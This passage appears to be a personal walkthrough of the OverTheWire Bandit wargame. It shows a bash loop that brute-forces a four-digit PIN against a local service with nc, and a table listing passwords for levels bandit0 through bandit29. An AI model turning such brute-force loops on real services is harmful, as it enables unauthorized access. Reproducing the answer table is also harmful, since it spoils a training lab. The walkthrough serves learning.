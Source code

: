 *Writing the script*  
Here we basically wrote a script, as each file was excecuting before getting deleted. We copied a script so that the password gets copied to our folder in /tmp/.
___
# Level 24 -> 25
~~~
#!/bin/bash
pass=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

for i in {0000..9999}
do
	echo $i >> out.txt
	echo $pass $i | nc localhost 30002 >> out.txt &
	pid=$!
	sleep 1
	kill $pid
	echo "" >> out.txt
done
__
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
~~~
*BruteForcing and finding PID of a process*  
Basically created a bash script to take each number and check for the password i.e. a for loop. '$!' gives the PID of the process and is killing it after excecution (after a sleep of 1 sec). The meaning of 'kill $pid' is a replacement of 'Ctrl + C' in the bash script.
___
# Usernames and Passwords

| Username  | Password |
| ------------- | ------------- |
bandit0	  |  bandit0
bandit1	  |  boJ9jbbUNNfktd78OOpsqOltutMc3MY1
bandit2	  |  CV1DtqXWVFXTvM2F0k09SHz0YwRINYA9
bandit3	  |  UmHadQclWmgdLOKQ3YNgjWxGoRMb5luK
bandit4	  |  pIwrPrtPN36QITSp3EQaw936yaFoFgAB
bandit5	  |  koReBOKuIDDepwhWk7jZC0RTdopnAYKh
bandit6	  |  DXjZPULLxYr17uwoI01bNLQbtFemEgo7
bandit7	  |  HKBPTKQnIay4Fw76bEy8PVxKEDQRKTzs
bandit8	  |  cvX2JJa4CFALtqS87jk27qwqGhBM9plV
bandit9	  |  UsvVyFSfZZWbi6wgC7dAFyFuR6jQQUhR
bandit10  |	 truKLdjsbJ5g7yyJ2X2R0o3a5HQJFuLk
bandit11  |  IFukwKGsFW8MOq3IRFqrxE1hxTNEbUPR
bandit12  |	 5Te8Y4drgCRfCx8ugdwuEX8KFC6k2EUu
bandit13  |	 8ZjyCRiBWFYkneahHwxCv3wb2a1ORpYL
bandit14  |	 4wcYUJFw0k0XLShlDzztnTBHiqxU3b3e
bandit15  |	 BfMYroe26WYalil77FoDi9qh59eK5xNr
bandit16  |	 cluFn7wTiGryunymYOu4RcffSxQluehd
bandit17  |	 xLYVMN9WE5zQ5vHacb0sZEVqbrp7nBTn
bandit18  |	 kfBf3eYk5BPBRzwjqutbbfE887SVc5Yd
bandit19  |	 IueksS7Ubh8G3DCwVzrTd8rAVOwq3M5x
bandit20  |	 GbKksEFF4yrVs6il55v6gwY5aVje5f0j
bandit21  |  gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr
bandit22  |	 Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
bandit23  |  jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
bandit24  |  UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
bandit25  |  uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
bandit26  |  5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
bandit27  |  3ba3118a22e93127a4ed485be72ef5ea
bandit28  |  0ef186ac70e04ea33b4c1853d2526fa2
bandit29  |  bbc96594b4e001778eee9975372716b2